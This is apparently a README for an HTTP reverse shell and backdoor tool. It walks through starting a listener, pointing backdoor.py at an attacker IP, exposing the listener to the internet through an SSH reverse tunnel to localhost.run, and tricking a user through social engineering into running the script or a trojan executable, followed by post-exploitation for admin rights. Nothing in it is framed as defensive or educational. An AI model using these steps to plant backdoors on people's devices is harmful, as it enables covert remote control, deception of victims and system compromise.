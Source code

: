 # HTTP Reverse Shell/Backdoor

- Opens a backdoor on executed device via HTTP protocol

## Usage

### Attack over LAN

- Start listener

    ```bash
    python3 listener.py
    ```

    > Default port = 8080
    > Change port in `listerner.py` on line 33 if another service is using 8080 port

- Edit `IP` and `PORT` values in `backdoor.py` on line 48

    ```python
    IP = 'attacker_local_ip'
    PORT = attacker_port  # 8080
    ```

### Attack over the internet

- Start a ssh tunnel on attacker's device.

    ```bash
    ssh -R 80:localhost:<listener_port>
    ```

    > Note : Replace <listener_port> with port on which local server is running

- Copy link that will be available after successfully tunelling between attacker's machine and localhost.run server.

    ```
    example : <random_characters>.localhost.run
    ```

- Start Listener on your localhost using

    ```bash
    python3 listener.py
    ```

- Replace copied link in `backdoor.py` on line 48.

    ```python
    IP = '<random_characters>.localhost.run'
    ```

- Use social engineering to make user to execute the python file or created standalone executable/trojan. Use python to run backdoor.py script.

    ```
    python3 backdoor.py
    ```

- Now use post exploitation tools to gain admin priviliges

# Tested on

- Windows 10
- Debian based OSes
- Android Termux
